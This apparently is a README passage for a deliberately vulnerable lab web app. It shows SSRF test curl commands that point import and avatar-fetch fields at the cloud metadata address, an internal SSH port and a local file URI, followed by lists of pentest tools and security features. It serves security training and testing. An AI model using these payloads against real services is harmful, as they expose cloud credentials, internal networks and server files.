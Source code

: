 **Advanced SSRF Testing:**
```bash
# SSRF payload for cloud metadata
curl -X POST http://localhost:3000/api/tasks/import \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"importUrl":"http://169.254.169.254/latest/meta-data/","format":"json"}'

# Internal network scanning
curl -X POST http://localhost:3000/api/users/avatar \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"imageUrl":"http://localhost:22","fetchFromUrl":true}'

# Local file inclusion
curl -X POST http://localhost:3000/api/users/avatar \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"imageUrl":"file:///proc/version","fetchFromUrl":true}'
```

### Penetration Testing Integration
- **Burp Suite** integration with automated scanning
- **OWASP ZAP** automation and reporting
- **SQLMap** integration for SQL injection testing
- **Custom exploit scripts** for advanced testing
- **Nmap** integration for network scanning

## 📊 Monitoring & Observability

### Real-time Dashboards
- **Attack Detection**: Live security event monitoring
- **Performance Metrics**: Application performance tracking
- **User Activity**: Real-time user behavior analysis
- **System Health**: Container and service status

### Logging & Alerting
- **Security Events**: Detailed attack logging
- **Audit Trails**: Complete user action tracking
- **Performance Logs**: Application performance data
- **System Logs**: Infrastructure monitoring

## 🔒 Security Features

### Built-in Security Controls
- **Rate Limiting**: API request throttling
- **Input Validation**: Comprehensive input sanitization
- **Authentication**: JWT with refresh token rotation
- **Authorization**: Role-based access control
- **File Upload Security**: Type and size validation
- **CORS Configuration**: Cross-origin request handling
